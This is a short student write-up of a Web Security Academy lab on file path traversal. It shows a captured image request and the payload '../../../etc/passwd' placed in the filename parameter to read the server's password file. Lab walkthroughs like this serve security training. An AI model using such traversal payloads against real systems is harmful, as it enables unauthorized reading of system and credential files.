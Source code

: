 #+title: File path traversal, simple case

* Table of Contents :toc:
- [[#lab-contains][Lab Contains]]
- [[#end-goal][End Goal]]
- [[#solution][Solution]]

* Lab Contains
- path traversal vulnerability on ~display of product images~
* End Goal
- retrieve the contents of ~/etc/passwd~ file
* Solution
- Access the lab and observe
- open the product image on new tab and capture on burpsuite
  - url looks like this ~https://0a8200a2030143cb8e636fc700dc0020.web-security-academy.net/image?filename=64.jpg~
  - Here we can see that it is accepting file name through ~filename~ parameter
  #+begin_src shell
    GET /image?filename=64.jpg HTTP/2
    Host: 0a8200a2030143cb8e636fc700dc0020.web-security-academy.net
    Cookie: session=gYmApEQ4cnHG30l6REoPezlpfAuCg6tX
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://0a8200a2030143cb8e636fc700dc0020.web-security-academy.net/product?productId=1
    Dnt: 1
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Sec-Gpc: 1
    Te: trailers
  #+end_src
- Now change the file name ~64.png~ to ~/etc/passwd~ and send the request
  - ~400 Bad request~: File not found
  - Now try with directory traversal sequences like ~../../../etc/passwd~
  - Awla! ~200 OK~ found the file. It is showing the the content of /etc/passwd file

So the correct payload to solve this lab is *../../../etc/passwd*
